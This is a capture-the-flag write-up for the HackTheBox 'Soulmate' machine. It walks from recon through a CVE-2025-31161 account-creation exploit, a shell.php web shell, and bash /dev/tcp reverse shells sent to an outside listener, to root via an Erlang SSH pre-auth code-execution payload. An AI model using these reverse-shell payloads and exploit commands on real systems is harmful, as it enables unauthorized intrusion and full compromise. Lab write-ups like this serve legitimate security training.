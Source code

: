 # HTB-Soulmate

### ReconA

- Added hostnames:
    
    ```bash
    echo "10.129.229.162 soulmate.htb ftp.soulmate.htb" | sudo tee -a /etc/hosts
    
    ```
    
- Ran service enumeration:
    
    ```bash
    nmap -sVC soulmate.htb
    
    ```
    
    Found ports:
    
    - `22/tcp` → OpenSSH
    - `80/tcp` → nginx (web server)

---

### 2. Foothold – Webshell

- Found vulnerable vhost: `ftp.soulmate.htb` (CVE-2025-31161).

```bash
[root@Hacking] /home/kali/soulmate/CVE-2025-31161 (main)
❯ python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user hyh --password admin123
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: hyh
   [*] Password: admin123.
```

![image.png](image.png)

Change password User ben and login to it

![image.png](image%201.png)

Open webprod file and the shell.php

![image.png](image%202.png)

- Verified execution:
    
    ```
    http://soulmate.htb/shell.php?cmd=id
    
    ```
    
    Output: `uid=33(www-data) gid=33(www-data)`
    
- Spawned reverse shell:
    
    ```bash
    rlwrap nc -lvnp 9001
    curl "http://soulmate.htb/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.81/9001 0>&1'"
    
    ```
    

---

### 3. Privilege Escalation → ben

- Inside foothold, discovered Erlang script:
    
    ```bash
    cat /usr/local/lib/erlang_login/start.escript
    
    ```
    
- Key findings in script:
    - Runs **SSH daemon** on `127.0.0.1:2222`.
    - Accepts both password and publickey.
    - Hardcoded creds:
        
        ```
        ben : HouseH0ldings998
        
        ```
        
        Root
        
        ## . Local Recon
        
        **Step:**
        
        Run service enumeration on the compromised host:
        
        ```bash
        ss -tuln
        
        ```
        
        **Finding:**
        
        - Found a local service listening on `127.0.0.1:2222`.
        - Banner check with `nc` shows:
            
            ```
            SSH-2.0-Erlang/5.2.9
            
            ```
            
        
        **Why it matters:**
        
        This isn’t a standard OpenSSH server. It’s an Erlang-based SSH daemon (part of Erlang/OTP).
        
        Non-standard implementations often contain exploitable bugs.
        
        ---
        
        ## 2. Vulnerability Identification
        
        **Step:**
        
        Look up known issues in Erlang SSH.
        
        **Finding:**
        
        - Vulnerable to **CVE-2025-3243** – a pre-authentication remote code execution bug in Erlang SSH.
        - Allows attackers to send crafted SSH channel requests before auth to trigger code execution.
        
        **Why it matters:**
        
        Because the daemon is running **as root**, any successful exploit = instant root shell.
        
        ---
        
        ## 3. Exploit – CVE-2025-3243.py
        
        **Step:**
        
        Use the exploit script `CVE-2025-3243.py`.
        
        - Adapted the PoC to send a **reverse shell payload**:
        
        ```python
        payload = f'os:cmd("bash -c \\"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1\\"").'
        
        ```
        
        **Explanation:**
        
        - The Erlang function `os:cmd/1` runs system commands.
        - We injected a reverse shell command into the SSH request.
        - When processed, it spawns a connection back to our listener with **root privileges**.
        
        ---
        
        ## 4. Execution
        
        **Step 1 – Listener:**
        
        ```bash
        rlwrap nc -lvnp 5555
        
        ```
        
        **Step 2 – Run exploit:**
        
        ```bash
        python3 CVE-2025-3243.py -lh 10.10.14.81 -lp 5555 -rh 127.0.0.1 -rp 2222
        
        ```
        
        **Why it works:**
        
        - The script simulates an SSH negotiation.
        - Instead of a normal exchange, it injects the Erlang RCE payload inside a **channel request**.
        - The Erlang SSH daemon doesn’t validate properly → payload executes directly.
        
        ---